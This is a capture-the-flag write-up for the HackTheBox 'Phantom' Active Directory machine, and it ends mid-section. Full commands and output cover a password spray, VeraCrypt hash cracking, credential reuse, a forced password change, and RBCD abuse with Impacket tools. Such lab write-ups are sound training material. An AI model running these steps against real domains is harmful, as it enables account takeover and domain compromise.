


# Phantom - HackTheBox Writeup


*Medium difficulty Windows Active Directory machine - Resource-Based Constrained Delegation (RBCD) exploitation*

---

## Table of Contents

1. [Overview](#overview)
2. [Initial Reconnaissance](#initial-reconnaissance)
3. [Password Discovery and Initial Access](#password-discovery-and-initial-access)
4. [VeraCrypt Container and Credentials](#veracrypt-container-and-credentials)
5. [User Flag](#user-flag)
6. [Privilege Escalation via RBCD](#privilege-escalation-via-rbcd)
7. [Domain Compromise](#domain-compromise)
8. [Conclusion](#conclusion)

---

## Overview

**Phantom** is a **medium** difficulty Windows Active Directory machine that highlights Kerberos delegation exploitation. The machine presents several interesting attack vectors:

- **Public SMB share** containing an email with a base64-encoded PDF
- **Password spray** on domain users
- **VeraCrypt container** containing network configuration backups
- **Resource-Based Constrained Delegation (RBCD)** for privilege escalation

**Objectives:**
- Obtain the `user.txt` flag
- Obtain the `root.txt` flag (complete domain compromise)

**Main Tools:**
- NetExec (nxc)
- Impacket (rbcd.py, getST.py, getTGT.py)
- Hashcat
- Evil-WinRM
- BloodHound

---

## Initial Reconnaissance

### Domain Discovery

Let's start by identifying the target machine and gathering information about the domain.

```bash
elliot@exegol:~$ nxc smb 10.129.234.63 --generate-hosts-file hosts
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
elliot@exegol:~$ cat hosts       
10.129.234.63     DC.phantom.vl phantom.vl DC
```

**Information gathered:**
- **Domain:** `phantom.vl`
- **Machine name:** `DC` (Domain Controller)
- **OS:** Windows Server 2022 Build 20348
- **SMB Signing:** Enabled

### SMB Share Enumeration

As the `Guest` user, we can list available shares:

```bash
elliot@exegol:~$ nxc smb phantom.vl -u 'Guest' -p '' --shares
SMB         10.129.234.63   445    DC               [+] phantom.vl\Guest: 
SMB         10.129.234.63   445    DC               Share           Permissions     Remark
SMB         10.129.234.63   445    DC               -----           -----------     ------
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.63   445    DC               C$                              Default share
SMB         10.129.234.63   445    DC               Departments Share                 
SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.63   445    DC               NETLOGON                        Logon server share
SMB         10.129.234.63   445    DC               Public          READ            
SMB         10.129.234.63   445    DC               SYSVOL                          Logon server share
```

The `Public` share is accessible in read mode. Let's use NetExec's `spider_plus` module to automatically download files:

```bash
elliot@exegol:~$ nxc smb phantom.vl -u 'Guest' -p '' --shares -M spider_plus -o DOWNLOAD_FLAG=True
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.63   445    DC               [+] phantom.vl\Guest: 
SPIDER_PLUS 10.129.234.63   445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.234.63   445    DC               [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS 10.129.234.63   445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.234.63   445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.234.63   445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.234.63   445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.234.63   445    DC               [*]  OUTPUT_FOLDER: /root/.nxc/modules/nxc_spider_plus
SMB         10.129.234.63   445    DC               [*] Enumerated shares
SMB         10.129.234.63   445    DC               Share           Permissions     Remark
SMB         10.129.234.63   445    DC               -----           -----------     ------
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.63   445    DC               C$                              Default share
SMB         10.129.234.63   445    DC               Departments Share                 
SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.63   445    DC               NETLOGON                        Logon server share 
SMB         10.129.234.63   445    DC               Public          READ            
SMB         10.129.234.63   445    DC               SYSVOL                          Logon server share 
SPIDER_PLUS 10.129.234.63   445    DC               [+] Saved share-file metadata to "/root/.nxc/modules/nxc_spider_plus/10.129.234.63.json".
SPIDER_PLUS 10.129.234.63   445    DC               [*] SMB Shares:           7 (ADMIN$, C$, Departments Share, IPC$, NETLOGON, Public, SYSVOL)
SPIDER_PLUS 10.129.234.63   445    DC               [*] SMB Readable Shares:  2 (IPC$, Public)
SPIDER_PLUS 10.129.234.63   445    DC               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.234.63   445    DC               [*] Total folders found:  0
SPIDER_PLUS 10.129.234.63   445    DC               [*] Total files found:    1
SPIDER_PLUS 10.129.234.63   445    DC               [*] File size average:    14.22 KB
SPIDER_PLUS 10.129.234.63   445    DC               [*] File size min:        14.22 KB
SPIDER_PLUS 10.129.234.63   445    DC               [*] File size max:        14.22 KB
SPIDER_PLUS 10.129.234.63   445    DC               [*] File unique exts:     1 (eml)
SPIDER_PLUS 10.129.234.63   445    DC               [*] Downloads successful: 1
SPIDER_PLUS 10.129.234.63   445    DC               [+] All files processed successfully.
```

An `.eml` (email) file was downloaded from the `Public` share.

---

## Password Discovery and Initial Access

### Email Analysis

The downloaded file is `tech_support_email.eml`. Let's examine its content:

```bash
elliot@exegol:~$ cat tech_support_email.eml
```

**Email content:**
```
From: alucas@phantom.vl
To: techsupport@phantom.vl
Subject: New Welcome Email Template for New Employees

Dear Tech Support Team,

I have finished the new welcome email template for onboarding new employees.
Please find attached the example template. Kindly start using this template for all new employees.

Best regards,
Anthony Lucas
```

The email contains a base64-encoded PDF attachment: `welcome_template.pdf`.

### PDF Extraction

Let's extract the base64 content and decode it:

```bash
elliot@exegol:~$ grep -A 1000 'filename="welcome_template.pdf"' tech_support_email.eml | grep -v 'filename=' | sed 's/--===============.*//' | tr -d '[:space:]' > welcome_template.base64
elliot@exegol:~$ ls
tech_support_email.eml  welcome_template.base64
elliot@exegol:~$ base64 -d welcome_template.base64 > welcome_template.pdf
```

### PDF Analysis

Opening the PDF reveals a welcome email template containing **default credentials**:

```
Welcome to Phantom!
Dear <NAME>

We are excited to have you on board.
Below are your user credentials:

Username: <USERNAME>
Password: Ph4nt0m@5t4rt!
```

**Password discovered:** `Ph4nt0m@5t4rt!`

### User Enumeration

Before testing the password, we need to obtain the list of domain users. Let's use a RID brute force attack:

```bash
elliot@exegol:~$ nxc smb phantom.vl -u 'Guest' -p '' --rid-brute | grep 'SidTypeUser' | cut -d'\' -f2 | cut -d' ' -f1 > users_list.txt
elliot@exegol:~$ cat users_list.txt                                                                            
Administrator
Guest
krbtgt
DC$
svc_sspr
rnichols
pharrison
wsilva
elynch
nhamilton
lstanley
bbarnes
cjones
agarcia
ppayne
ibryant
ssteward
wstewart
vhoward
crose
twright
fhanson
cferguson
alucas
ebryant
vlynch
ghall
ssimpson
ccooper
vcunningham
```

**Users discovered:** 30+ domain users including `ibryant`, `svc_sspr`, `wsilva`, `lstanley`, and others.

### Password Spray

Let's test the password `Ph4nt0m@5t4rt!` against all users:

```bash
elliot@exegol:~$ nxc smb phantom.vl -u users_list.txt -p 'Ph4nt0m@5t4rt!'
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.63   445    DC               [-] phantom.vl\Administrator:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\Guest:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\krbtgt:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\DC$:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\svc_sspr:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\rnichols:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\pharrison:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\wsilva:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\elynch:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\nhamilton:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\lstanley:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\bbarnes:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\cjones:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\agarcia:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ppayne:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
```

**Success!** The `ibryant` account uses the default password.

### Share Enumeration with ibryant

With `ibryant` credentials, we have access to more shares:

```bash
elliot@exegol:~$ nxc smb phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' --shares             
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.63   445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
SMB         10.129.234.63   445    DC               [*] Enumerated shares
SMB         10.129.234.63   445    DC               Share           Permissions     Remark
SMB         10.129.234.63   445    DC               -----           -----------     ------
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.63   445    DC               C$                              Default share
SMB         10.129.234.63   445    DC               Departments Share READ            
SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.63   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.234.63   445    DC               Public          READ            
SMB         10.129.234.63   445    DC               SYSVOL          READ            Logon server share 
```

The `Departments Share` is now accessible in read mode.

### Exploring the Departments Share

Let's use `smbclient-ng` to explore the share structure:

```bash
elliot@exegol:~$ smbclientng -d phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' --host "10.129.234.63"
               _          _ _            _
 ___ _ __ ___ | |__   ___| (_) ___ _ __ | |_      _ __   __ _
/ __| '_ ` _ \| '_ \ / __| | |/ _ \ '_ \| __|____| '_ \ / _` |
\__ \ | | | | | |_) | (__| | |  __/ | | | ||_____| | | | (_| |
|___/_| |_| |_|_.__/ \___|_|_|\___|_| |_|\__|    |_| |_|\__, |
    by @podalirius_                             v2.1.8  |___/
    
[+] Successfully authenticated to '10.129.234.63' as 'phantom.vl\ibryant'!

■[\\10.129.234.63\]> use 'Departments Share'
■[\\10.129.234.63\Departments Share\]> dir
d-------     0.00 B  2024-07-06 18:25  .\
d--h--s-     0.00 B  2025-08-14 13:55  ..\
d-------     0.00 B  2024-07-06 18:25  Finance\
d-------     0.00 B  2024-07-06 18:21  HR\
d-------     0.00 B  2024-07-11 16:59  IT\
■[\\10.129.234.63\Departments Share\]> tree
├── Finance/
│   ├── Expense_Reports.pdf
│   ├── Invoice-Template.pdf
│   └── TaxForm.pdf
├── HR/
│   ├── Employee-Emergency-Contact-Form.pdf
│   ├── EmployeeHandbook.pdf
│   ├── Health_Safety_Information.pdf
│   └── NDA_Template.pdf
└── IT/
    ├── Backup/
    │   └── IT_BACKUP_201123.hc
    ├── mRemoteNG-Installer-1.76.20.24615.msi
    ├── TeamViewer_Setup_x64.exe
    ├── TeamViewerQS_x64.exe
    ├── veracrypt-1.26.7-Ubuntu-22.04-amd64.deb
    └── Wireshark-4.2.5-x64.exe
```

An interesting file: `IT_BACKUP_201123.hc` in the `IT/Backup/` folder. The `.hc` extension suggests a **VeraCrypt** container.

---

## VeraCrypt Container and Credentials

### Container Download

Let's download the `IT_BACKUP_201123.hc` file:

```bash
smb: \IT\Backup\> get IT_BACKUP_201123.hc
getting file \IT\Backup\IT_BACKUP_201123.hc of size 12582912 as IT_BACKUP_201123.hc (831.7 KiloBytes/sec) (average 831.7 KiloBytes/sec)
smb: \IT\Backup\>
```

**File size:** 12 MB (12582912 bytes)

### Conversion for Hashcat

To crack the VeraCrypt container, we first need to convert it to Hashcat format. Let's use the `veracrypt2hashcat.py` script:

```bash
elliot@exegol:~$ python3 veracrypt2hashcat.py IT_BACKUP_201123.hc
```

**Generated hash:**
```
$veracrypt$65bc2466b1604b15a24008d9e3e49a63f4ec7318eea9a9e11eff3943356abf283f406fa7d9ced7acac920d883052bd6830a7fb279ff32059d3f493475bad551b$3d32ef4409393d72662931a5bccd45c41a4c455483abe2b34d9ee5eecfb9060e6a0165c2eefce02d7fe61deacf0e55d49f1290a622d06c1b69f716c4ee2d8e51d0cefc5196c63fe3deb59fbfb7b4b86285bbde70dfc602a83ec18af946eaae67b93fdbea302784b523ad5203ed1190e2c5dc20dca86fd0c068c72eb13975c54635a85d7ccebafd3ef51c3c9ad2ab28d7bd17415afa614481ba006e772652b967c490f4d638901f792d8fe9bda589a3653644905f1a24040b1669858d7811b1e1813b5b1ec646a3839d26a1bd14c7542cef9881ba551063f6cf72c86f7c1df39090078caffa0e86c2005d4395984044786f31982ae7b0a6870518786672920f1cff3d02694b03a2c97d70980c09b3e6ab8d8fd0f00bd4cde9ca6615fd4c30791d493360d2366ae8c99e9f7acc3e78e6215a20b7c39e2d49f61a0239e50c076f7d29d5c9d61a2fc15f68c8ad3257b436b2ee337cc33d48257ce44cadafee1e68b316e71a4f9e94eba63013e96b8ee7d087d7f83926fc9face52108ab3a861d97b4e0ea3438aff416b17e5f22feb0a6c40a6e1b28e4ef13e2b74e3b79e0d24a3b83adf4dd7e73d1a75fd1903c4a612fb7fb1237d4df94c3d007ca8f7992c7eceec9
```

### Custom Wordlist Creation

According to the machine hint, we need to create a wordlist based on the company name (`Phantom`) with common mutations (year + special character).

**Created wordlist (`passwords.txt`):**
```
Phantom2020!
Phantom2021!
Phantom2022!
Phantom2023!
Phantom2024!
Phantom2025!
...
```

### Hashcat Attack

Let's use Hashcat with mode 29421 (VeraCrypt SHA512 + XTS 512 bit):

```bash
elliot@exegol:~$ hashcat -m 29421 veraHash passwords.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-Intel(R) Core(TM) Ultra 7 155H, 30874/61813 MB (8192 MB allocatable), 22MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 128

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP
* Uses-64-Bit

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: passwords.txt
* Passwords.: 80
* Bytes.....: 990
* Keyspace..: 80
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

$veracrypt$65bc2466b1604b15a24008d9e3e49a63f4ec7318eea9a9e11eff3943356abf283f406fa7d9ced7acac920d883052bd6830a7fb279ff32059d3f493475bad551b$3d32ef4409393d72662931a5bccd45c41a4c455483abe2b34d9ee5eecfb9060e6a0165c2eefce02d7fe61deacf0e55d49f1290a622d06c1b69f716c4ee2d8e51d0cefc5196c63fe3deb59fbfb7b4b86285bbde70dfc602a83ec18af946eaae67b93fdbea302784b523ad5203ed1190e2c5dc20dca86fd0c068c72eb13975c54635a85d7ccebafd3ef51c3c9ad2ab28d7bd17415afa614481ba006e772652b967c490f4d638901f792d8fe9bda589a3653644905f1a24040b1669858d7811b1e1813b5b1ec646a3839d26a1bd14c7542cef9881ba551063f6cf72c86f7c1df39090078caffa0e86c2005d4395984044786f31982ae7b0a6870518786672920f1cff3d02694b03a2c97d70980c09b3e6ab8d8fd0f00bd4cde9ca6615fd4c30791d493360d2366ae8c99e9f7acc3e78e6215a20b7c39e2d49f61a0239e50c076f7d29d5c9d61a2fc15f68c8ad3257b436b2ee337cc33d48257ce44cadafee1e68b316e71a4f9e94eba63013e96b8ee7d087d7f83926fc9face52108ab3a861d97b4e0ea3438aff416b17e5f22feb0a6c40a6e1b28e4ef13e2b74e3b79e0d24a3b83adf4dd7e73d1a75fd1903c4a612fb7fb1237d4df94c3d007ca8f7992c7eceec9:Phantom2023!
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 29421 (VeraCrypt SHA512 + XTS 512 bit)
Hash.Target......: $veracrypt$65bc2466b1604b15a24008d9e3e49a63f4ec7318...eceec9
Time.Started.....: Wed Dec 10 12:58:35 2025 (2 secs)
Time.Estimated...: Wed Dec 10 12:58:37 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       53 H/s (0.67ms) @ Accel:512 Loops:500 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 80/80 (100.00%)
Rejected.........: 0/80 (0.00%)
Restore.Point....: 0/80 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:499500-499999
Candidate.Engine.: Device Generator
Candidates.#1....: Phantom2025! -> Phantom2023!
Hardware.Mon.#1..: Temp: 59c Util: 72%

Started: Wed Dec 10 12:58:32 2025
Stopped: Wed Dec 10 12:58:38 2025
```

**Container password:** `Phantom2023!`

### Mounting the VeraCrypt Container

Let's mount the container with the found password:

```bash
elliot@exegol:~$ sudo veracrypt IT_BACKUP_201123.hc /mnt/ --password='Phantom2023!'
```

### Content Analysis

Let's list the container contents:

```bash
elliot@exegol:~$ ls /mnt/
```

**Content discovered:**
```
$RECYCLE.BIN
azure_vms_1104.json
azure_vms_0805.json
azure_vms_1123.json
splunk_logs_1003
splunk_logs_1102
splunk_logs1203
System Volume Information
ticketing_system_backup.zip
vyos_backup.tar.gz
```

The `vyos_backup.tar.gz` file looks promising. VyOS is an open-source network operating system based on Debian.

### Extraction and Analysis of VyOS Backup

Let's extract the archive:

```bash
elliot@exegol:~$ tar -xzf vyos_backup.tar.gz
```

Let's explore the structure, particularly the configuration file `config/config.boot`:

```bash
elliot@exegol:~$ cat config/config.boot
```

**Interesting section found:**
```
vpn {
    sstp {
        authentication {
            local-users {
                username lstanley {
                    password "gB6XTcqVP5MlP7Rc"
                }
            }
        }
    }
}
```

**Credentials discovered:**
- **User:** `lstanley`
- **Password:** `gB6XTcqVP5MlP7Rc`

---

## User Flag

### Testing Credentials on the Domain

Let's test the password `gB6XTcqVP5MlP7Rc` against all users:

```bash
elliot@exegol:~$ nxc smb 10.129.234.63 -u users_list.txt -p 'gB6XTcqVP5MlP7Rc'                         
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.63   445    DC               [-] phantom.vl\Administrator:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\Guest:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\krbtgt:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\DC$:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc 
```

**Success!** The `svc_sspr` account uses the same password as `lstanley` on the VyOS router.

### Privilege Verification

Let's verify if `svc_sspr` has administrator privileges:

```bash
elliot@exegol:~$ nxc winrm 10.129.234.63 -u users_list.txt -p 'gB6XTcqVP5MlP7Rc'
WINRM       10.129.234.63   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl)
WINRM       10.129.234.63   5985   DC               [-] phantom.vl\Administrator:gB6XTcqVP5MlP7Rc
WINRM       10.129.234.63   5985   DC               [-] phantom.vl\Guest:gB6XTcqVP5MlP7Rc
WINRM       10.129.234.63   5985   DC               [-] phantom.vl\krbtgt:gB6XTcqVP5MlP7Rc
WINRM       10.129.234.63   5985   DC               [-] phantom.vl\DC$:gB6XTcqVP5MlP7Rc
WINRM       10.129.234.63   5985   DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc (admin)
```

The `svc_sspr` account has administrator privileges!

### Obtaining user.txt

Let's connect with Evil-WinRM to retrieve the flag:

```bash
elliot@exegol:~$ evil-winrm -i phantom.vl -u svc_sspr -p 'gB6XTcqVP5MlP7Rc'
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_sspr\Documents> cd "C:/Users/svc_sspr/Desktop/"
*Evil-WinRM* PS C:\Users\svc_sspr\Desktop> ls


    Directory: C:\Users\svc_sspr\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        12/10/2025   1:01 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc_sspr\Desktop> cat "C:/Users/svc_sspr/Desktop/user.txt"
<flag>
*Evil-WinRM* PS C:\Users\svc_sspr\Desktop> 
```

**user.txt flag obtained!** ✅

---

## Privilege Escalation via RBCD

### Enumeration with BloodHound

To understand the domain structure and identify escalation paths, let's use BloodHound:

```bash
elliot@exegol:~$ nxc ldap dc.phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' --bloodhound -c All --dns-server 10.129.234.63
LDAP        10.129.234.63   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl)
LDAP        10.129.234.63   389    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
LDAP        10.129.234.63   389    DC               Resolved collection methods: psremote, localadmin, acl, objectprops, rdp, dcom, group, container, session, trusts
LDAP        10.129.234.63   389    DC               Done in 00M 05S
LDAP        10.129.234.63   389    DC               Compressing output into /root/.nxc/logs/DC_10.129.234.63_2025-12-10_141429_bloodhound.zip
```

### Discovering ForceChangePassword Rights

BloodHound reveals that `svc_sspr` has `ForceChangePassword` rights on several users:
- `CROSE@PHANTOM.VL`
- `WSILVA@PHANTOM.VL`
- `RNICHOLS@PHANTOM.VL`



### Changing wsilva's Password

Let's change `wsilva`'s password to obtain an account we control:

```bash
elliot@exegol:~$ net rpc password "wsilva" 'Phantom2023!' -U "phantom.vl"/"svc_sspr"%"gB6XTcqVP5MlP7Rc" -S "phantom.vl"
elliot@exegol:~$ 
```

Let's verify the change worked:

```bash
elliot@exegol:~$ nxc smb 10.129.234.63 -u wsilva -p 'Phantom2023!'
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.63   445    DC               [+] phantom.vl\wsilva:Phantom2023! 
```

**Success!** We now control the `wsilva` account.

### Attempting Machine Account Creation

To exploit RBCD, we normally need to create a machine account. Let's try:

```bash
elliot@exegol:~$ addcomputer.py -method SAMR -computer-name 'ELLIOT$' -computer-pass 'Phantom2023!' -dc-host 10.129.234.63 PHANTOM/wsilva:'Phantom2023!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] Relayed user machine quota exceeded!
```

[-] Relayed user machine quota exceeded!

Indicates that you are attempting to create a machine account (using the standard user account wsilva) while the domain's default limit for creating new machine objects has already been reached, or that the wsilva account does not have the necessary rights to create this new object within the CN=Computers OU.

### Checking MachineAccountQuota

Let's check the `MachineAccountQuota` value:

```bash
elliot@exegol:~$ nxc ldap 10.129.234.63 -u wsilva -p 'Phantom2023!' -M maq
LDAP        10.129.234.63   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl)
LDAP        10.129.234.63   389    DC               [+] phantom.vl\wsilva:Phantom2023! 
MAQ         10.129.234.63   389    DC               [*] Getting the MachineAccountQuota
MAQ         10.129.234.63   389    DC               MachineAccountQuota: 0
```

The `MachineAccountQuota` is **0**, meaning no standard user can create new machine accounts.

### RBCD Exploitation Without SPN

Fortunately, there's a technique that allows exploiting RBCD **without creating a machine account**: using a standard user account directly without SPN. This technique was demonstrated by James Forshaw in 2022.

**Reference:** [The Hacker Recipes - RBCD on SPN-less users](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users)

**How RBCD Works:**
- **Resource-Based Constrained Delegation (RBCD)** is configured on the target service account via the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute
- This allows specified accounts to delegate to the target service
- Normally, machine accounts are used, but regular user accounts without SPNs can also be used

**The SPN-less User Technique:**
- When `MachineAccountQuota` is 0, we can't create machine accounts
- However, regular user accounts can be added to `msDS-AllowedToActOnBehalfOfOtherIdentity`
- The S4U2Self+U2U (User-to-User) extension allows using a user account's TGT session key
- By changing the user's password hash to match the TGT session key, we can use the TGT with `-k` (keytab) mode

### Configuring RBCD

Configuring RBCD to allow `wsilva` to impersonate other users on `DC$`:

```bash
elliot@exegol:~$ rbcd.py -delegate-to 'DC$' -delegate-from wsilva -action write phantom/wsilva:'Phantom2023!' -dc-ip 10.129.234.63
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] wsilva can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)
```

**Understanding AddAllowedToAct:**

